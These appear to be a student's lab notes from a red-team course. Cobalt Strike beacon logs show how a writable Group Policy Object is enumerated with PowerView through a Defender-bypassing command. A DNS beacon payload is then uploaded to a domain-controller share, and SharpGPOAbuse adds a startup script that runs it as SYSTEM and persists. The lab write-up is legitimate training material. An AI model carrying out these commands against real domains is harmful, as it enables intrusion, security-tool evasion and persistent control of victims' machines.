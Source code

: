 in order to `enumerate` GPO with `Windows Defender` on first import `PowerView.ps1`
```powershell
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[+] host called home, sent: 143801 bytes
```
this section was complated on `WKSTN-2` as `DEV\bfarmer`

use `powerpick` to utilize `powershell` commands while bypassing `Windows Defender`
```powershell
beacon> powerpick Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
[+] host called home, sent: 10 bytes
[*] Tasked beacon to run: Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" } (unmanaged)
[+] host called home, sent: 138048 bytes
[+] received output:


AceType               : AccessAllowed
ObjectDN              : CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=c
                        yberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : 
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107
AccessMask            : 131127
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

one result was returned, next we `resolve` the GPO name and the `SID` of the principal.
```powershell
[12/12 18:39:28] beacon> powerpick Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath
[12/12 18:39:28] [+] host called home, sent: 10 bytes
[12/12 18:39:28] [*] Tasked beacon to run: Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath (unmanaged)
[12/12 18:39:28] [+] host called home, sent: 138048 bytes
[12/12 18:39:32] [+] received output:

displayname    gpcfilesyspath                                                                      
-----------    --------------                                                                      
Vulnerable GPO \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3B...
```
utilized `SID` from two commands ago to identify the actual `groupname` of `SID`
```powershell
[12/12 19:03:24] beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
[12/12 19:03:24] [*] Tasked beacon to run: ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107 (unmanaged)
[12/12 19:03:24] [+] host called home, sent: 138058 bytes
[12/12 19:03:28] [+] received output:
DEV\Developers
```
This shows us that members of the ``"Developers"`` group can modify ``"Vulnerable GPO"``.

We also want to know which OU(s) this GPO applies to, and by extension which computers are in those OUs.  GPOs are linked to an OU by modifying the `gPLink` property of the OU itself.  The `Get-DomainOU` cmdlet has a handy `-GPLink` parameter which takes a GPO GUID.

```powershell
[12/12 19:04:42] beacon> powerpick Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName
[12/12 19:04:42] [+] host called home, sent: 10 bytes
[12/12 19:04:42] [*] Tasked beacon to run: Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName (unmanaged)
[12/12 19:04:43] [+] host called home, sent: 138048 bytes
[12/12 19:04:46] [+] received output:

distinguishedname                         
-----------------                         
OU=Workstations,DC=dev,DC=cyberbotic,DC=io
```
Finally, to get the computers in an OU, we can use `Get-DomainComputer` and use the OU's distinguished name as a search base.
```powershell
[12/12 19:05:55] beacon> powerpick Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName
[12/12 19:05:55] [+] host called home, sent: 10 bytes
[12/12 19:05:55] [*] Tasked beacon to run: Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName (unmanaged)
[12/12 19:05:55] [+] host called home, sent: 138048 bytes
[12/12 19:05:59] [+] received output:

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
```
To modify a GPO without the use of GPMC (Group Policy Management Console), we can modify the associated files directly in SYSVOL (the gpcFileSysPath).
```powershell
[12/12 19:06:56] beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}
[12/12 19:06:56] [*] Tasked beacon to list files in \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}
[12/12 19:06:56] [+] host called home, sent: 110 bytes
[12/12 19:06:56] [*] Listing: \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     12/13/2022 12:35:45   Machine
          dir     12/13/2022 12:35:45   User
 59b      fil     12/13/2022 12:35:45   GPT.INI
```
We can do that manually or use an automated tool such as [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse), which has several abuses built into it.

# File Upload
on `WKSTN-2` as `bfarmer` used commands below:

`cd` to `DC-2` share folder
```powershell
beacon> cd \\dc-2\software\
[*] cd \\dc-2\software\
[+] host called home, sent: 24 bytes
```
`ls` the directory
```powershell
beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 19 bytes
[*] Listing: \\dc-2\software\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/24/2022 10:47:00   elastic-agent-windows
          dir     08/24/2022 10:38:51   Sysmon
 1mb      fil     08/16/2022 12:37:56   LAPS.x64.msi
```
`upload` `dns_x64.exe`
```powershell
[12/20 20:44:26] beacon> upload
[12/20 20:45:11] [*] Tasked beacon to upload C:\Payloads\dns_x64.exe as dns_x64.exe
[12/20 20:45:11] [+] host called home, sent: 328727 bytes
```
ensure that it was uploaded
```powershell
[12/20 20:45:16] beacon> ls
[12/20 20:45:16] [*] Tasked beacon to list files in .
[12/20 20:45:16] [+] host called home, sent: 19 bytes
[12/20 20:45:16] [*] Listing: \\dc-2\software\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/24/2022 10:47:00   elastic-agent-windows
          dir     08/24/2022 10:38:51   Sysmon
 321kb    fil     12/20/2023 20:45:12   dns_x64.exe
 1mb      fil     08/16/2022 12:37:56   LAPS.x64.msi
```
utilize command below to `add` and `execute` `startup.bat`, the `script` starts the `dns_x64.exe` 
Here's an example using a Computer Startup Script.  It will put a startup script in SYSVOL that will be executed each time an effected computer starts (which incidentally also acts as a good persistence mechanism).
```powershell
[12/20 20:48:14] beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"
[12/20 20:48:15] [*] Tasked beacon to run .NET program: SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"
[12/20 20:48:15] [+] host called home, sent: 215546 bytes
[12/20 20:48:16] [+] received output:
[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io

[12/20 20:48:16] [+] received output:
[+] GUID of "Vulnerable GPO" is: {5059FAC1-5E94-4361-95D3-3BB235A23928}
[+] Creating new startup script...

[12/20 20:48:16] [+] received output:
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!

```
on `dc-2` ensuring that the `startup.bat` script was uploaded correctly
![[Pasted image 20231220163904.png]]
Log into the console of Workstation 1 and run `gpupdate /force` from a Command Prompt.  Then reboot the machine.  After it starts up, the DNS Beacon will execute as SYSTEM.

![[Pasted image 20231220164045.png]]